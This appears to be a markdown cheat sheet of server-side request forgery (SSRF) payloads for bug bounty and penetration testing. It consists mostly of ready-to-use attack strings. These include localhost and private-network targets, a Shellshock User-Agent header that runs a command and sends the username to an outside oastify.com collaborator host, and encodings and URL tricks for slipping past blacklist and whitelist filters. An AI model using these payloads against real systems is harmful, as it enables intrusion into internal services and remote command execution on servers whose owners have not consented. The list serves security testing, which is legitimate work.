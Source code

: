 ### Port and Path Exploitation
1. Try with port number, path.

### File Uploads
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713

### Internal Private IPv4 Networks
3. If you do want to look for internal services, here’s a list of private IPv4 networks that you could scan for services:

    - 10.0.0.0/8
    - 127.0.0.1/32
    - 172.16.0.0/12
    - 192.168.0.0/16

## Common Method (API Parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.